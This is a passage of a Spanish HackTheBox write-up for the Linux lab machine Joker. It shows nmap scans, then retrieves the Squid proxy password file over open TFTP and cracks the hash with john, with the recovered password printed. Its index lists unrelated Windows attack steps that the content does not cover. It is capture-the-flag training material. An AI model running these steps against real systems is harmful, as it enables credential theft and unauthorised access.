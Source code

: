 
En el día de hoy estaremos resolviendo la máquina Joker de HackTheBox. Es una máquina Linux y su dirección IP es 10.10.10.21.

### Índice

1. [Ennumeración Inicial](#enumeración-inicial)
2. [ASREPRoast Attack](#asreproast-attack)
3. [ForceChangePassword](#forcechangepassword)
4. [LSASS Dump](#lsass-dump)
5. [Backup Operators Privesc](#backup-operators-privesc)

### Enumeración Inicial

Lo primero que haremos será una enumeración de los servicios expuestos que tiene la máquina. Para esa tarea usaremos nmap.

```nmap
❯ nmap -sC -sV -Pn -oN Extraction -p22,3128 10.10.10.21
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2023-03-01 16:12 CET
Nmap scan report for 10.10.10.21
Host is up (0.056s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 88:24:e3:57:10:9f:1b:17:3d:7a:f3:26:3d:b6:33:4e (RSA)
|   256 76:b6:f6:08:00:bd:68:ce:97:cb:08:e7:77:69:3d:8a (ECDSA)
|_  256 dc:91:e4:8d:d0:16:ce:cf:3d:91:82:09:23:a7:dc:86 (ED25519)
3128/tcp open  http-proxy Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tenemos un SSH y un SQUID Proxy, al no tener un vector claro decidí escanear los puertos UDP. Eso puede tardar un rato.

```bash
❯ nmap -sU -oN UDPScan 10.10.10.21
Starting Nmap 7.91 ( https://nmap.org ) at 2023-03-01 16:29 CET
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 1.73% done; ETC: 16:32 (0:02:50 remaining)
Stats: 0:00:30 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 4.05% done; ETC: 16:42 (0:12:14 remaining)
Stats: 0:01:44 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 10.66% done; ETC: 16:45 (0:14:32 remaining)
Stats: 0:04:57 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 28.84% done; ETC: 16:46 (0:12:15 remaining)
Stats: 0:08:18 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 47.74% done; ETC: 16:46 (0:09:06 remaining)
Stats: 0:15:40 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 89.17% done; ETC: 16:47 (0:01:54 remaining)
Nmap scan report for 10.10.10.21
Host is up (0.050s latency).
Not shown: 998 closed ports
PORT     STATE         SERVICE
69/udp   open|filtered tftp
5355/udp open|filtered llmnr
```

Después de un rato podemos ver un puerto interesnate que es el 69, este puerto correspodne con un tftp. Después de un rato sin encontrar nada que descargar, veo que puedo descargar la configuración de SQUID proxy, por lo que pienso en descargarme el fichero con las passwords de los cliente en formato hash.

```bash
tftp> get /etc/squid/passwords
Received 48 bytes in 0.1 seconds
```

Si abrimos el fichero podemos ver la siguiente información.

```bash
kalamari:$apr1$zyzBxQYW$pL360IoLQ5Yum5SLTph.l0
```

Podemos romper le HASH con john o con hashcat, yo utilizaré john.

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt passwords
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ihateseafood     (kalamari)
1g 0:00:00:24 DONE (2023-03-01 17:01) 0.04101g/s 300206p/s 300206c/s 300206C/s ihatetiff..ihatepz
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Tenemos un usuario y una contraseña. Lo primero que probé fué si era valida para el SSH, pero no... Traté de configurar proxychains para utilizar el SQUID.



